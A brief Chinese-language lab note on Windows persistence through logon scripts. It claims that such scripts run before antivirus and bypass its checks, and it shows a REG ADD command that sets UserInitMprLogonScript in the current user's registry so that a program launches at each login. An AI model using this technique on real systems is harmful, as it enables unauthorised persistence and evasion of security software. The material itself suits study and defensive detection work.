

<span style="font-size: 40px; font-weight: bold;">logon scripts</span>

<div style="text-align: right;">

date: "2024-01-17"

</div>

# 前提说明

Windows登录脚本，当用户登录时触发，Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截。

# 实验

注册表位置：`HKEY_CURRENT_USER\Environment`

```shell
C:\Users\c>REG ADD "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\WINDOWS\system32\cmd.exe"

操作成功完成。
```



重启后自动运行，除开重启，注销也可以